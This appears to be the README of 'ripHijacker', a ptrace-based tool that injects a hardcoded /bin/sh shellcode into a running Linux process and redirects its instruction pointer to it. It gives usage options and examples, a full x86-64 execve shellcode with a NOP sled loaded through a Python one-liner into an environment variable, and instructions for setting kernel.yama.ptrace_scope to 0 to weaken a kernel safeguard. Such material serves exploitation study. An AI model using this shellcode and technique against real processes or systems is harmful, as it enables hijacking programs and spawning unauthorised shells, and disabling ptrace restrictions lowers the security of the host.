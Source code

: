 # ripHijacker

#DESCRIPTION:

- It allows you to inject an hardcoded "/bin/sh" shellcode into the executable segment /lib/x86_64-linux-gnu/ld-2.19.so of the target process and to overwrite its $rip register with the address of that segment.
- It allows you to inject an hardcoded "/bin/sh" shellcode into the stack of the target process and to overwrite its $rip register with the address pointed by its $rsp register.                       
- It allows you to overwrite the $rip register of the target process with the address of an environment variable located in the target's stack.

##SYNOPSIS: 
```bash
$./ripHijacker [OPTIONS]
```

##OPTIONS:
```
-p <target_pid>:        pid of the target process.
-z <0|1>:               if enabled (1), it overwrites the $rip register with an address of the target's stack.
-e <env_var>:           name of the environment variable on which the $rip register will point at.
-n <target_progr_name>: name of the target.
```
(-e and -n options must be used together and only if -z is enabled)

##EXAMPLES:

```bash
 $./ripHijacker -p 6666
 ```
 
 ```bash
 $./ripHijacker -p 6666 -z 1
 ````
 
 - We can load a simple /bin/sh shellcode in an environment variable with the comand:
 ```bash
 
 export A=$(python -c "print '\x90' * 20 + '\xeb\x1f\x5f\x48\x31\xc0\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xff\x48\x83\xc0\x7f\x48\x83\xc0\x2d\x0f\x05\xe8\xdc\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")
 ```
 
- Now we can use -e and -n options:

 ```bash
 $./ripHijacker -p 6666 -z 1 -e A -n target_name
```

##NOTES:
ripHijacker uses ptrace. 
```
"A PTRACE scope of "0" is the more permissive mode.  A scope of "1" limits
PTRACE only to direct child processes.."
```
So we can change scope of ptrace with these commands:
```bash
$sudo vim  /etc/sysctl.d/10-ptrace.conf
```
..and setting.. 
```bash
kernel.yama.ptrace_scope = 0
```
..after that we must load the new settings with:
```bash
$sudo sysctl --system -a -p | grep  yama
```

Obviously, to use '-z 1' option the target program must be compiled with the "-z execstack" option and to use -e and -n options the environment variable must be loaded before the program target execution.

##AKNOWLEDGEMENT:

Vorrei ringraziare Fabio Blacklight ed il suo vecchio ma geniale programma meminj.c che mi ha permesso di venire a 
conoscenza dell'utilità di ptrace ed anche Crossbower che mi ha dato l'idea su come effettuare l'attacco ld_inj




